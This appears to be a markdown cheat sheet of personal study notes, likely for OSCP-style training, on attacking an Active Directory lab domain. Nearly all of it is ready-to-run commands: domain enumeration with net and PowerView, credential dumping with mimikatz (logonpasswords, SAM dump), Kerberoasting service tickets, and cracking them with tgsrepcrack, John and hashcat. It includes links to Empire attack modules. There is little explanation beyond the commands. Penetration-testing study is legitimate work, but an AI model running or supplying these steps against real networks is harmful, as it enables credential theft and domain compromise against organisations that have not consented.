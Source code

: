 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

